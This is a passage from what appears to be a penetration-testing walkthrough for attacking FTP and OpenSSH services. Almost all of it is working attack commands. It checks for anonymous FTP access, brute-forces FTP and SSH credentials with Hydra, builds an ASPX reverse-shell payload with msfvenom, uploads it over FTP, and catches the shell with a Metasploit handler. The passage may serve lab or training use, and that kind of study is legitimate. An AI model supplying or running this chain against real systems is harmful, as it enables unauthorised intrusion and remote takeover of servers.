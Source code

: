 ```bash
# nmap script
nmap --script ftp-anon -p21 <target-ip>
```

2. **Brute-force FTP (if allowed)**

```bash
hydra -L users.txt -P passwords.txt ftp://<target-ip>
# or: hydra -l username -P passwords.txt ftp://<target-ip>
```

3. **Manual FTP access**

```bash
ftp <target-ip> 21
# then browse files and directories, look for .asp/.aspx or upload points
```

4. **If you find .asp/.aspx and can upload**
   Generate an ASP reverse shell payload (example using msfvenom):

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<your-ip> LPORT=1234 -f aspx -o payload.aspx
```

Upload `payload.aspx` via the FTP session:

```text
put payload.aspx
```

5. **Start handler and request payload**

```text
# start multi/handler in msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST <your-ip>
set LPORT 1234
run
```

Visit `http://<target-ip>/payload.aspx` in browser (or trigger it) to get the shell.

> Tip: msfvenom `-f aspx` generates server-side ASP payloads — match payload type to the server.

---

## Targeting OpenSSH (practical)

1. **Try credentials you already have**:

```bash
ssh user@<target-ip>
```

2. **Brute-force with Hydra (if allowed)**:

```bash
hydra -l vagrant -P /path/to/wordlist.txt ssh://<target-ip>
```
